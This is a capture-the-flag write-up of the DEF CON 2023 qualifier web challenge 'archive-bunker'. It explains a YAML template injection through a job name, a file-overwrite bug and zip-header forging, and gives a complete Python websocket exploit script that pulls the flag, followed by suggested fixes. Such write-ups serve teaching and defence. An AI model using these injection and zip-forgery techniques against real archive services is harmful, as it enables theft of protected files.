





# Archive-bunker at defcon 2023 qualifiers

A web interface and something with uploading zips! 
After long hours of waiting, `archive-bunker` finally presents the first web-challenge in the defcon qualifiers! So let's dive straight in and see what this thing does.
Link to [challenge](https://github.com/Nautilus-Institute/quals-2023/tree/main/artifact-bunker) (with Dockerfile!) 

## Exploration

We get website with some doomsday-paranoid advertising for storing your CI / CD artifacts in super-secur bunker. 
We interact with the application through what looks like a military-grade rugged computer terminal with shitty control buttons.
We can upload `zip` or `tar` archives by drag'n'dropping them into the screen and then we can browse the uploaded archives and see the contents of the contained files.
We can also hit a mysterious `prep-artifacts` button that will make a `app-main--<timestamp>` archive appear, containing some weird text files.

So far so ... good? Let's look at the code! HTTP requests are so web2, of course in a defcon challenge, everything happens with websockets!
Once you open the site, a websocket connection is established to provide the actual functionality. 
The back-end server is written in go-lang and handles - among others - the following websocket events/commands:

### `upload` 
As the name suggests, this command allows us to upload archives, some important observations:
- Your file name must end with `.zip` or `.tar`.
- You can not "overwrite" an archive with the same name.
- Your archive will be opened by the server and its members stored into a zip archive **with the extension stripped** 
- All uploaded archives get "censored" in the `compress_files` function. 
Meaning if an archive members name contains certain words, it is dropped and the file contents are scanned for certain regex patterns which are replaced with `***`. The words and patterns are specified in the config file.

### `download` 
So say you uploaded `my-archive.(tar|zip)`, you can then download members from your archive by passing `my-archive/my-member` to the `download` command. (Note the lack of extension!) 
To accomplish this "feature" the server will open the **zip** archive created in the upload step. 


### `job` (packaging) 
The third important command is the `job` command, which only supports one subcommand: `package`. 
You can also pass an arbitrary `name` for the package-job.
Under the hood, this feature is massively over-engineered:
In the spirit of CI-Tools the actual input is a yaml file that describes `steps` (archives) of a certain `name` that contain certain files.
The go server will prepare that yaml by applying some variables to a template file (included in the source) with go-langs [templating engine](todo: link) which is similar to jinja or django templating for the web folks reading this.
It will create a `.tar` archive and again a zip archive **without** a filename extension for every `step`.

Did you catch it? It creates archives with a `name` and we can specify a `name` for our websocket command...

## It's an InYection
So we control the `name` variable and the template for the CI job looks like this:
```yaml
job:
  steps:
    - use: archive
      name: "{{.Name}}-{{.Commit}}-{{.Timestamp}}"
      artifacts:
        - "bunker-expansion-plan.txt"
        - "new-layer-blueprint.txt"
```
with our specially crafted `name` turns it into this:


One big limitation we have here, is that we can only include files into our archive that are inside the `/project` directory. This is again specified in the config file via the `root` setting. 
The good news is that `flag.txt` is in this `/project` directory and that the CI job will create a `.tar` archive (which has no compression) and a zip archive in the `/data` directory.
The bad news is that the zip archive will be created with `compress_files`, which applies the "censorship" mechanism described earlier. 
And you might remember that the download command will always and only look at zip archives.

So we have a mechanism to get the flag into a tar file in `/data`, but how do we get it out of there?

<10 Hours later>

# There is an overwrite

We spent a lot of time pocking around for path traversals in the archive processing logic this is a web-challenge, right? RIGHT?

We didn't find anything like that, but suddenly we discovered that the loathed `compress_files` function did have a bug: 

It doesn't check whether the file it was writing the archive to already exists! So it would overwrite existing files. 
Notice that it will overwrite not replace: If the original file is larger than the zip file, the "bottom" contents of 
the original will not be erased! Additionally, we can use this to write into the tar created by the InYection by using 
`filename.tar.zip` as the filename, since only the `.zip` extension will be stripped!

So now it became clearer what we had to do: 
1. Create a large tar with the flag inside using our InYection
2. Use the overwrite to write zip metadata into the tar archive
3. Read the flag from zip/tar with the download function

Our thought process was of course a lot less straight forward than that during the CTF. But to spare you the pain, we 
will now give you a short intro into the zip archive format:

# Zip Intro title I guess

So here it is, the part of the writeup you have all been waiting for: a lengthy introduction of which you will skip half, just to later read all of it again because you did not understand the exploit.<br>
During the CTF, we used [this documentation](https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html) for details about the Zip archive structure, which already leaves out a lot of details that were not relevant for the challenge.

The general Zip structure looks like this:<br>



[Source](https://www.codeproject.com/KB/cs/remotezip/diagram1.png)

A directory of all files, called _Central Directory_ (CD) is placed at the end (yes you read that right) of a ZIP file. This identifies what files are in the Zip and where there are located (it doesn't literally need to be at the end, but we'll come back to this later).<br>
The CD consists of a _CD File Header_ for each file in the archive, that contains multiple fields, among them:
- `file-name-len` and `file-name`: Name of a member: *Uncompressed and arbitrary*, max 2^16 bytes 
- `compression`: May be no compression (`0`)
- `crc-32`: if this is `0`, the checksum is ignored
- `compressed-size`
- `extra-filed-length`: extra data after the `file-name`, max 2^16 bytes
- `offset`: This is not the offset of the file content itself: the content is preceded by a _Local File Header_, which simply repeats most of the details already present in the central directory.

As mentioned above, the Zip archive does not need to end in the CD. The standard allows for a _File comment_ of length up to 65535 bytes after the CD, which can contain arbitrary data.

# Zip! Y u so nasty??? 
The keen reader might have observed that the format allows for some nasty ambiguities: Some header fields, like `crc-32` and `compression` are in the directory header AND member header, so which one takes precedence? 
We checked the go implementation. It seems like it will always use the value in the directory header for
all fields, except `extra-field-length`. This field is also a key part of our exploit: By setting the value very 
high, we can make the go zip reader read "below" the contents of our actual zip file -> i.e. the contents of the tar archive -> the flag!

Easy! Right? No. The trouble is that we can not control the zip metadata that `compress_files` will write. It will just 
open the provided archive and copy the members into a new zip archive with defaults for compression, 
extra-field-length, etc. In addition: The `download` function give us an empty file if the go zip reader 
encounters anything it doesn't like, for example invalid checksums or broken directory headers. 

But truth be told, we do control one of the header fields: The member name! After a lot of head scratching our refined 
exploit plan looks like this:

1. Create a large `manyflgs.tar` with the flag inside using our InYection
2. Write a smaller `small.zip` into the tar, so we have a zip directory header
3. Write an even smaller `tiny.zip` into the tar, with a member name that:
   - Contains a valid member header with a large `extra-field-lengt` to make go zip reader jump down and read the 
   contents of the tar  
   - Overrides the `compression-method` and `crc` in the directory header to `0` 
   - Overrides the `member offset` to point to the member header described above
   - Does not break the headers in a way that upsets the go zip reader 
3. Download the flag from our crafted zip.


After we generate the tar and upload `small.zip`, we see a directory header in `manyflgs.tar` that looks like this. The long streak of `D`s is our chosen member name.
.

After uploading `tiny.zip` we see its directory header in the file, which looks like below. Notice that some `D`s where overwritten.

.

Now remember that the directory header is at the **end** of a zip file? That also means that a zip reader will search for the directory header end-to-start!
So the file will actually be interpreted like below. (No data changed, only the coloring.)

.

And now we can just `download` at an arbitrary offset below our local header, by setting the "extra field length" and size of our member. -> We get the flag!

# Exploit: 
```python
import base64
import re
import urllib
from zipfile import ZipFile

from websocket import create_connection

ws = create_connection("ws://localhost:5555/ws/")


def cmd(cmd, do_rcv: bool = True):
    ws.send(cmd)
    if do_rcv:
        return ws.recv()
    else:
        return


def upload(name, data):
    data = base64.b64encode(data).decode()
    r = cmd(f"upload {name} {data}")
    l = r.strip().split(" ")
    assert l[0] == "upload-success", r


def download(name):
    r = cmd(f"download {name}")
    l = r.strip().split(" ")
    assert l[0] == "file", r

    return base64.b64decode(l[2])


def create_manyflgs_zip():
    name = '''manyflgs"
      artifacts:
        - "flag.txt"
        - "flag.txt" 
    - use: archive
      name: "'''

    cmd("job package " + urllib.parse.quote(name))


def upload_small_zip():
    filename_len = 11  # gives us nicely aligned local headers

    with ZipFile("small.zip", mode="w") as zip_file:
        with zip_file.open("D" * 100, mode="w") as mem:
            mem.write(b"A")

        for i in range(3):
            with zip_file.open(str(i) * filename_len, mode="w") as mem:
                mem.write(b"B")

    with open("small.zip", "rb") as f:
        upload("manyflgs.tar.zip", f.read())


def upload_tiny_zip():
    # Value eyballed with trial,error and hex viewer
    filename_len = 145
    # Using a placeholder string as file name, because zipfile doesn't like bytes as member names
    # Replaced with bytes below
    placeholder = b"{{" + b"A" * (filename_len - 4) + b"}}"

    with ZipFile("tiny.zip", mode="w") as zip_file:
        with zip_file.open(placeholder.decode(), mode="w") as mem:
            mem.write(b"ABC")

    # local file header, most fields are irrelevant (set to zero)
    local_file_header = bytes(
        [
            0x50,
            0x4B,
            0x03,
            0x04,  # magic bytes
            0x00,
            0x00,  # version
            0x00,
            0x00,  # flags
            0x00,
            0x00,  # compression
            0x00,
            0x00,  # mod time
            0x00,
            0x00,  # mod date
            0x00,
            0x00,
            0x00,
            0x00,  # checksum
            0x00,
            0x00,
            0x00,
            0x00,  # compressed size
            0x00,
            0x00,
            0x00,
            0x00,  # uncompressed size
            0x00,
            0x00,  # name length
            0x00,
            0x00,  # extra field length
            0x00,
            0x00,  # file name
        ]
    )

    # central directory header, most fields are irrelevant (set to zero)
    central_directory_header = bytes(
        [
            0x50,
            0x4B,
            0x01,
            0x02,  # magic bytes
            0x00,
            0x00,  # version
            0x00,
            0x00,  # version needed
            0x00,
            0x00,  # flags
            0x00,
            0x00,  # compression
            0x00,
            0x00,  # mod time
            0x00,
            0x00,  # mod date
            0x00,
            0x00,
            0x00,
            0x00,  # checksum
            0x00,
            0x07,
            0x00,
            0x00,  # compressed size
            0x00,
            0x07,
            0x00,
            0x00,  # uncompressed size
            0x02,
            0x00,  # name length
            0x62,
            0x00,  # extra field len
            0x00,
            0x00,  # file comment len
            0x00,
            0x00,  # disk number start
            0x00,
            0x00,  # internal attributes
            0x00,
            0x00,
            0x00,
            0x00,  # external attributes
            0x39,
            0x01,
            0x00,
            0x00,  # offset of local header
        ]
    )

    payload = local_file_header + central_directory_header
    padding_len = len(placeholder) - len(payload)

    # Replace member names with our payload
    with open("tiny.zip", "rb") as f:
        contents = f.read()

    for result in re.finditer(b"{{A*}}", contents):
        start, stop = result.span()
        assert len(payload) + padding_len == stop - start
        contents = contents[: start + padding_len] + payload + contents[stop:]

    upload("manyflgs.tar.zip", contents)


if __name__ == "__main__":
    create_manyflgs_zip()
    input("manyflgs.tar created, hit enter to continue...")
    upload_small_zip()
    input("small.zip uploaded, hit enter to continue...")
    upload_tiny_zip()
    print("tiny.zip uploaded. Downloading flag:")

    # Member name is "PK" because those are the magic bytes for a directory header entry
    recv_zip = download("manyflgs.tar/PK")
    print(re.findall(rb"flug\{.*?\}", recv_zip)[0].decode())

```

# Fix(es):

As usual, the yaml injection could be fixed by properly sanitizing/validating user inputs. While theoretically 
linux allows lots of unusual characters in file names, this use-case requires that at least quotes and newlines are 
escaped. An allow-list of characters might be even more adequate.

`compress_files` overwriting files is obvious bug that should be fixed by either completely replacing existing files
or aborting if the file already exists. 

To avoid the collision of file-names that allowed us to target `manyflgs.tar` with `compress_files`, file-name handling should be implemented more prudently. It currently overlooks at least one corner case: files with multiple "extensions". One simple fix might be using separate directories for `zip` and `tar` files.
